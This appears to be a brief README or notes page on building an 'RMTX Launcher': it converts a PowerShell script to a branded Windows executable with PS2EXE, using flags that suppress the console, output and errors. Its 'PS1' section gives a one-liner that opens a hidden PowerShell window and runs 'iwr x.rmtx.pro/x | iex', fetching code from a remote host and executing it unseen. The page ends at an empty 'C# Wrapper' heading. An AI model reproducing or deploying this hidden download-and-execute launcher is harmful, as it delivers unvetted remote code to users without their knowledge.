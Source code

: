 - [Use PS2EXE to convert the launcher file](https://github.com/MScholtes/Win-PS2EXE)
```
 Install-Module ps2exe -Scope CurrentUser
```
```
# Import ps2exe module
Import-Module ps2exe

# Paths
$scriptPath = ".\"
$scriptName = "Launcher.ps1"
$exeName = "Launcher.exe"
$iconPath = ".\Icon.ico"  # Optional

# Convert script to executable
Invoke-ps2exe -inputFile (Join-Path -Path $scriptPath -ChildPath $scriptName) `
              -outputFile (Join-Path -Path $scriptPath -ChildPath $exeName) `
              -prepareDebug `
              -x64 `
              -noConsole `
              -UNICODEEncoding `
              -iconFile $iconPath `
              -title "RMTX Launcher" `
              -description "RMTX Launcher" `
              -company "RMTX" `
              -product "RMTX Launcher" `
              -copyright "(c) RMTX 2024" `
              -trademark "RMTX" `
              -version "1.0.0" `
              -configFile `
              -noOutput `
              -noError `
              -noVisualStyles `
              -exitOnCancel `
              -DPIAware `
              -winFormsDPIAware `
              -requireAdmin:$false `
              -supportOS `
              -longPaths `
              -verbose
```

- Gitlab CI yaml

## PS1

# Run the command in a hidden window
```
Start-Process powershell.exe -WindowStyle Hidden -ArgumentList "-Command iwr x.rmtx.pro/x | iex" -Wait
```
## C# Wrapper
